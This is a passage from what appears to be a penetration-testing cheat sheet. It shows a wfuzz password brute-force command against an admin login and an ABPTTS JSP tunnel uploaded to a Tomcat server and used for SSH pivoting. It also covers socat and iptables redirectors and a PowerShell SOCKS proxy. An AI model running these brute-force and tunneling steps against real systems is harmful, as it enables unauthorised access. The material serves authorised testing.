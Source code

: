 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
Reference: https://sensepost.com/discover/tools/reGeorg/

 <a name="abptts"><b> 2. ABBTTS </b>
  
Upload File

![abbtts5](https://user-images.githubusercontent.com/7115563/33883774-6d249ffa-df3d-11e7-9f3f-68bf1e70465f.png)

Config proxychains and create the tunnel

```python abpttsclient.py -c tomcat_walkthrough/config.txt -u http://192.168.1.128/abptts.jsp -f 127.0.0.1:22222/127.0.0.1:22```

Usage

```ssh -p 22222 user@127.0.0.1```

![abbtts7](https://user-images.githubusercontent.com/7115563/33883891-dc2f3c70-df3d-11e7-84e9-ebd9eab9ebee.png)

Reference: https://github.com/nccgroup/ABPTTS


<a name="httpredirectors"><h3>HTTP Redirectors</h3>

<a name="socatred"><b> 1. socat </b>
 
<pre>socat TCP4-LISTEN:80,fork TCP4:REMOTE-HOST-IP-ADDRESS:80</pre>


![socatt](https://user-images.githubusercontent.com/7115563/42031184-a8b3deee-7ad5-11e8-96ae-9b38bfe82df2.png)

<a name="iptablesred"><b> 2. iptables </b>
 
<pre>iptables -I INPUT -p tcp -m tcp --dport 80 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination REMOTEADDR:80
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -I FORWARD -j ACCEPT
iptables -P FORWARD ACCEPT
sysctl net.ipv4.ip_forward=1</pre>

![iptables](https://user-images.githubusercontent.com/7115563/41294963-97cc925c-6e59-11e8-8adf-8db85f6ffaf2.png)


<a name="windowsocks"></a><h3> Windows Socks Proxy </h3>

In this case this is going to be used to access Burp listening on a Windows NATed VM from other PCs in the same network as the Windows Host.

From the Windows Host machine (IP: 192.168.1.206)

<pre>
Import-Module .\Invoke-SocksProxy.psm1
Invoke-SocksProxy -bindPort 1234
</pre>

![invokesocks](https://user-images.githubusercontent.com/7115563/49870467-b63bb480-fe13-11e8-807d-8422e5837b58.png)

From other PC on the Windows Host machine network (IP: 192.168.1.69)

```